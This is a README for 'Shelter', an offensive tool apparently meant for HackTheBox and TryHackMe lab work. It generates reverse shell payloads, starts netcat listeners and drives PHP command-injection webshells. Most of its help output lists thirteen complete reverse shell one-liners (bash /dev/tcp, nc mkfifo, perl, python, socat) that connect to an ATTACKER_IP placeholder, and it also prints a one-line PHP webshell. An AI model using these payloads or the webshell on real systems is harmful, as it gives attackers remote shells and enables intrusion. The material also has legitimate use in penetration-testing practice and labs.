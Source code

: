 # Shelter
***

Shelter the magical Shell Handler.
![](img/Pasted image 20210428200307.png)
## What is it ?

Shelter is a new way to catch reverse shell's and also reduces the effort of visiting `pentestmonkey` and `highoncoffee`frequently for reverse shell payloads and changing of the `Attacker-IP` and `Attacker-Port` everytime.

Shelter is made to perform in 4 mode's. The required mode can be easily set by passing the argument of the mode to the script.
- **rev** : Generates and copies reverse shell payload with `IP` and `port` set to clipboard and also starts up a netcat.
- **web** : Webshell interactor for GET parameter command injection in php.
- **webrev** : Convert's a classic GET parameter command injection in php to a reverse shell.
- **host** : Will host post exploitation module's like `pspy`,`linpeas` etc. from the attackbox using `python http.server` or `updog` and copy the web url to the clipboard. 

**This tool is focused towards the solver's of `hackthebox`, `tryhackme` or any other labs with `vpn` connection.**

***
## ✨ Features
### rev Module
- Generate and copy revshell payload with `ATTACKERIP`[default: tun0] and `ATTACKERPORT`. 
- Start's Up a netcat listener on that port for catching the shell.
- Support's `13` language's of reverse shell payload's all tested.
**Only Linux payload's are supported for now.**
- Reduces the hassle of visiting `pentestmonkey` or `highoncoffee` reverse shell cheatsheet for geting reverse shell payloads and changing the `IP` and `PORT` on it everytime.
**This tools is not claiming to be better than pentestmonkey or highoncoffee by any means.**
### web Module
- Reduces the hassle of writting commands in `burpsuite` in time of php parameter command injection and url encoding every time.
- Automatically, URL encodes the command before sending it.

### webrev Module
- Converts a dumb GET parameter command injection to a reverse shell.
- Generates a reverse shell payload with set `ATTACKERIP`[default : tun0] and `ATTACKERPORT` and sends it to webserver url encoded.
- Starts up a netcat listner on the given `ATTACKERPORT` for catching the shell.
### host Module[Coming Soon...]
- It will create a `www` directory with `phpreverseshell`, `powershell reverseshell`, while setting the `ATTACKERIP` and `ATTACKERPORT` and post exploitation tools like `pspy`,`linpeas`,`winpeas` etc. using `updog` or classic `python http.server`.
- It will also copy the url of the file hosted from the server to the clipboard for easy pasting and `wgetting`
***
## Usage
### Rev Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py rev --help
usage: shelter.py rev [-h] {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat} ...

optional arguments:
  -h, --help            show this help message and exit

Available Payloads:
  {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat}
    bash                echo base64_encoded_bash-i_payload |base64 -d|bash
    bashi               bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
    bash196             0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; bash <&196 >&196 2>&196
    bashrl              exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done
    bash5               bash -i 5<> /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0<&5 1>&5 2>&5
    bashudp             bash -i >& /dev/udp/ATTACKER_IP/ATTACKER_PORT 0>&1
    nc_mkfifo           rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f
    perl                perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton
                        ($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
    py2                 python -c 'import
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    py                  python3 -c 'import
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    py2export           export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")'
    pyexport            export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python3 -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")
    socat               socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:'bash',pty,stderr,setsid,sigint,sane
```
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py rev py --help
usage: shelter.py rev py [-h] [--nohandler] [-i 127.0.0.1] [-p 8888]

optional arguments:
  -h, --help    show this help message and exit
  --nohandler   Copies only the revshell payload. [Does not start handler]
  -i 127.0.0.1  IP for reverse shell.
  -p 8888       PORT for reverse shell.
```

#### Taking a reverse shell from a docker container.
![](img/Pasted image 20210428201310.png)

### Web Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py web --help
usage: shelter.py web [-h] [-f F] [-param PARAM] [--ssl] [--nossl] URL

positional arguments:
  URL           Target URL [http://127.0.0.1/cmd.php]

optional arguments:
  -h, --help    show this help message and exit
  -f F          Filename of the webshell [Default : cmd.php]. Incase you enter only ip in url arg.
  -param PARAM  GET parameter to send commands.[Default: cmd]
  --ssl         Force HTTPS
  --nossl       Force downgrade to HTTP
```

By default it assume's filename `cmd.php` and GET parameter `cmd` if not specified as an argument.

The php code responsible for getting a simple GET parameter webshell.
```php
root@6a647b5a3d5f:~# cat cmd.php 
<?php system($_GET[cmd]); ?>
```
#### Webshell on a docker container.
![](img/Pasted image 20210428202006.png)

### Webrev Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py webrev --help                                                                                                                                        
usage: shelter.py webrev [-h] [-f F] [-param PARAM] [--ssl] [--nossl] URL {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat} ...
                                                                                    
positional arguments:                                                                                                                                                    
  URL                   Target URL [http://127.0.0.1/cmd.php]                       
                                          
optional arguments:                                                                 
  -h, --help            show this help message and exit
  -f F                  Filename of the webshell [Default : cmd.php]. Incase you enter only ip in url arg.
  -param PARAM          GET parameter to send commands.[Default: cmd]                                                                                                    
  --ssl                 Force HTTPS                                                 
  --nossl               Force downgrade to HTTP
  
Available Payloads:                                                                                                                                                      
  {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat}                                                                               
    bash                echo base64_encoded_bash-i_payload |base64 -d|bash          
    bashi               bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1                                                                                               
    bash196             0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; bash <&196 >&196 2>&196                                                                     
    bashrl              exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done                                                    
    bash5               bash -i 5<> /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0<&5 1>&5 2>&5
    bashudp             bash -i >& /dev/udp/ATTACKER_IP/ATTACKER_PORT 0>&1                                                                                               
    nc_mkfifo           rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f                                                             
    perl                perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton
                        ($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'                                                              
    py2                 python -c 'import                                                                                                                                
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);          
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'                                                                       
    py                  python3 -c 'import                                          
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);          
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'                                                                       
    py2export           export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in                    
                        (0,1,2)];pty.spawn("bash")'
    pyexport            export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python3 -c 'import                                                                      
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")
    socat               socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:'bash',pty,stderr,setsid,sigint,sane
```
#### Revshell on a docker container.
![](img/Pasted image 20210428223306.png)

***
# Disclaimer
Don't use this script for any malicious or illegal purpose's. The Author or any contributor of this repository or tool is not responsible for any of those activities.